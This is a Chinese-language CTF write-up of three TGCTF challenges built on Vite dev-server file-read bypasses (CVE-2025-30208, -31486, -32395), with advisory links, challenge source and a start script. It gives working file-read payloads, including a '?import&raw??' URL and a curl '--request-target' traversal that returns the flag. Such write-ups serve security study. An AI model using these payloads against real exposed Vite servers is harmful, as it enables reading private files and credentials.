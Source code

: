 ```yaml
---
title: "Vite漏洞分析"
description: "Vite漏洞分析-CVE-2025-30208"
date: 2025-06-15
tags:
  - "CVE-2025-30208"
  - "CVE-2025-31486"
  - "CVE-2025-32395"
  - "vite"
authors:
  - "bx"
---
```

<meta name="referrer" content="no-referrer">

# Vite漏洞分析
主要是 TGCTF 里面出来了三道题，这个漏洞还是非常新的

+ <font style="color:rgb(0,0,0);">CVE-2025-30208</font>

`<font style="color:rgb(31, 35, 40);">@fs</font>`<font style="color:rgb(31, 35, 40);"> 拒绝访问 Vite 服务允许列表之外的文件。将 </font>`<font style="color:rgb(31, 35, 40);">?raw??</font>`<font style="color:rgb(31, 35, 40);"> 或 </font>`<font style="color:rgb(31, 35, 40);">?import&raw??</font>`<font style="color:rgb(31, 35, 40);"> 添加到 URL 中可以绕过此限制，如果存在则返回文件内容。这种绕过存在是因为在多个地方删除了尾随分隔符（如 </font>`<font style="color:rgb(31, 35, 40);">?</font>`<font style="color:rgb(31, 35, 40);"> ），但未在查询字符串正则表达式中考虑。</font>

[https://github.com/vitejs/vite/security/advisories/GHSA-x574-m823-4x7w](https://github.com/vitejs/vite/security/advisories/GHSA-x574-m823-4x7w)

+ <font style="color:rgb(0,0,0);">CVE-2025-31486</font>

<font style="color:rgb(31, 35, 40);">这个是，只有明确将 Vite 开发服务器暴露到网络上的应用程序（使用 --host 或 server.host 配置选项）才会受到影响</font>

[`server.fs.deny` 通过 `.svg` 或相对路径绕过](https://github.com/vitejs/vite/security/advisories/GHSA-xcj6-pq6g-qj4x)

+ <font style="color:rgb(0,0,0);">CVE-2025-32395</font>

[`server.fs.deny` bypassed with an invalid `request-target`](https://github.com/vitejs/vite/security/advisories/GHSA-356w-63v5-8wf4)

<font style="color:rgb(0,0,0);"></font>

## <font style="color:rgb(0,0,0);">调试 Vue</font>
学习到了一个 vue devtools

官网如下：

[Vue DevTools](https://devtools.vuejs.org/)

![](https://cdn.nlark.com/yuque/0/2025/png/42994824/1744727354800-2928e5dd-2bfa-447c-9bcd-997f324948ee.png)

我就拿这题举例子，在 chrome 下载这个插件

可以清晰的看出来 vue 项目的结构之类的东西

![](https://cdn.nlark.com/yuque/0/2025/png/42994824/1744727146492-3214e69b-56f6-4658-a38a-3e9b4dd994e3.png)

在`components`可以快捷调试，确实比自己找半天强，还能快捷的梳理版本号和项目结构

具体效果如下





![](https://cdn.nlark.com/yuque/0/2025/png/42994824/1744727030500-241e36a6-a6d1-4260-9065-bcd3677282f7.png)

![](https://cdn.nlark.com/yuque/0/2025/png/42994824/1744727200702-a5b0c156-a898-4331-9d5e-cf8981e2e4c7.png)



## **前端GAME**
https://www.panziye.com/front/16376.html

![](https://cdn.nlark.com/yuque/0/2025/png/42994824/1744647088442-4bbde74b-f299-4c85-84da-a8e28caac511.png)

关键代码

```bash
const result = (source) => {             if (source > 17) { // <--- 关键条件在这里！                 return `     \u5F53\u524D\u6210\u7EE9\uFF1A${score.value}\u5206     <div class="result">       <img src="@/assets/images/result.png" />       <p>\u606D\u559C\u4F60\u83B7\u5F97\u4E86</p>       <p>\u96EA\u7CD5\u5927\u738B\u79F0\u53F7</p>       <p>flag\u5728\u6839\u76EE\u5F55\u4E0B/tgflagggg\u4E2D</p> // <--- Flag 位置信息！      </div>     `;             } else {                 return `     \u5F53\u524D\u6210\u7EE9\uFF1A${score.value}\u5206     <div class="result">       <img src="@/assets/images/result.png" />       <p>\u83DC\uFF01\uFF01\uFF01</p>     </div>     `;             }         }
   
   
   -------
   
   const result = (source) => {
    if (source > 17) { // <--- 关键条件在这里！
        return `
当前成绩：${score.value}分
<div class="result">
  <img src="@/assets/images/result.png" />
  <p>恭喜你获得了</p>
  <p>雪糕大王称号</p>
  <p>flag在根目录下/tgflagggg中</p> // <--- Flag 位置信息！
</div>
`;
    } else {
        return `
当前成绩：${score.value}分
<div class="result">
  <img src="@/assets/images/result.png" />
  <p>菜！！！</p>
</div>
`;
    }
}
```

http://node2.tgctf.woooo.tech:31048/start.sh

```bash
#!/bin/sh
# 鍚姩 Vite 寮€鍙戞湇鍔″櫒锛堝悗鍙拌繍琛岋級
pnpm dev --host 0.0.0.0 &

echo $FLAG > /tgflagggg
export FLAG="not_flag"
FLAG="not_flag"

httpd -D FOREGROUND

# 淇濇寔瀹瑰櫒杩愯锛堥槻姝㈤€€鍑猴級
tail -f /dev/null
```

最后flag

### Payload
```plain
http://node2.tgctf.woooo.tech:32123/@fs/tgflagggg?import&raw??
```

![](https://cdn.nlark.com/yuque/0/2025/png/42994824/1744647088429-b1c1636d-4d47-4d62-b584-12c176821cd1.png)





## **前端GAME Plus**
https://github.com/vitejs/vite/security/advisories/GHSA-xcj6-pq6g-qj4x

```bash
const result = (source) => {
            if (source > 17) {
                return `
    \u5F53\u524D\u6210\u7EE9\uFF1A${score.value}\u5206
    <div class="result">
      <p>\u606D\u559C\u4F60\u83B7\u5F97\u4E86</p>
      <p>\u96EA\u7CD5\u5927\u738B\u79F0\u53F7</p>
      <p>flag\u5728\u6839\u76EE\u5F55\u4E0B/tgflagggg\u4E2D</p>
    </div>
    `;
            } else {
                return `
    \u5F53\u524D\u6210\u7EE9\uFF1A${score.value}\u5206
    <div class="result">
      <p>\u83DC\uFF01\uFF01\uFF01</p>
    </div>
```

![](https://cdn.nlark.com/yuque/0/2025/jpeg/42994824/1744647088522-7a5bbeaa-6568-4dc7-b8fa-3599118d4934.jpeg)

![](https://cdn.nlark.com/yuque/0/2025/png/42994824/1744647506078-b8c548b0-fe19-42ad-aca1-76c53f6243ec.png)

两种打法都可以

## **前端GAME Ultra**
参考

https://github.com/vitejs/vite/security/advisories/GHSA-356w-63v5-8wf4

![](https://cdn.nlark.com/yuque/0/2025/png/42994824/1744647088416-3d7fb5c5-bca7-4254-9d22-b4d6ddb6790f.png)

```plain
┌──(root㉿kali)-[/home/bx]
└─# curl --request-target '/@fs/app/#/../../../tgflagggg' http://node1.tgctf.woooo.tech:32399

TGCTF{3b323bb9-70eb-bb3a-d45a-86aff17f8ef4}
```

